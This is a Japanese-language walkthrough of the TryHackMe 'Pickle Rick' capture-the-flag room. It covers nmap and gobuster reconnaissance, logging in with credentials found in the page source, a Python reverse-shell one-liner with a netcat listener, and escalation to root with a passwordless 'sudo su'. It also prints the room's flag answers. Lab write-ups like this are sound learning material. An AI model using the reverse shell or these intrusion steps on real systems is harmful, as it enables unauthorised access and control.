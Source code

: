 # Pickle Rick | TryHackMe
> A Rick and Morty CTF. Help turn Rick back into a human!

level -> Easy

使ったツール･コマンド
1. nmap
2. gobuster
3. python3
4. netcat

まずはIPを設定しておく

`export IP=machine_ip_adress`

## Task1, Pickle Rick
### What is the first ingredient that Rick needs?
ピクルスを人間に戻すための素材を見つけるらしい(?
どのポートが空いているのか確認

`nmap -sV -sC $IP`

結果をみると80と22が空いているらしいので80を見に行く
いろいろあるがページのソースを見てみる
丁寧にユーザーネームが書いてある

`Username: R1ckRul3s`

先程のユーザーネームを打つところを探す
gobusterで他のものを探す

`gobuster dir -w common.txt -u http://$IP -x php,html,txt`

robots.txtとportal.phpを見つけた
robots.txtには意味不明な文字列

`Wubbalubbadubdub`

portal.phpはなにかのログイン画面のよう
ユーザーネームはさっきの奴だとして、パスワードらしきもの見つからなかったのでrobots.txtの文字列をパスワード代わりに使ってみる

```
username: R1ckRul3s
password: Wubbalubbadubdub
```

初見でこれがパスワードってわかった人凄すぎる(はじめは知らんかった
さっそくページのソースを見てみる
意味深なBase64を発見

` Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`

これは全く関係ないが気になる人は7回重ねてデコードしてみるといい(まじでおすすめ
とりあえずリバースシェルを試してみる(Python3で
別の端末を開いてnetcatでリッスンしておく
自分でPORTの部分はせていしてね

`nc -lnvp PORT`

下のpython3をCommand Panelに打つ
IPADDRESSとPORTは自分で設定してね

`python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IPADDRESS",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'`

つながったらlsしてみる

`ls -la`

Sup3rS3cretPickl3Ingred.txtが気になったのでcatで見てみる

`cat Sup3rS3cretPickl3Ingred.txt`

1つ目の素材をつけた
#### *mr. meeseek hair*

### What is the second ingredient in Rick’s potion?
ポーションの素材を探す
とりあえずホームディレクトリに移動して誰がいるのか確認

`cd /home`

rickを見つけたのでrickのホームディレクトリに移動してlsしてみる

`cd rick ; ls -la`

second ingredientsを見つけたのでcatで見てみる

`cat second\ ingredients`

2つ目の素材を見つけた
#### *1 jerry tear*

### What is the last and final ingredient?
3つ目を探す
最後なので/rootにあるだろうから権限を昇格する
sudoできるコマンドがあるか調べる

`sudo -l`

(ALL) NOPASSWD: ALLだそうです(勝ちです
とりあえずrootになっておく

`sudo su`

これで/rootに移動できるようになったので移動

`cd /root`

移動できたらlsしてみる

`ls -la`

3rd.txtをcatする

`cat 3rd.txt`

3つ目の素材を見つけた
#### *fleeb juice*

これでこのルームは終わり
このルームで見つけた素材3つでピクルスを人間に戻せるらしいです(?

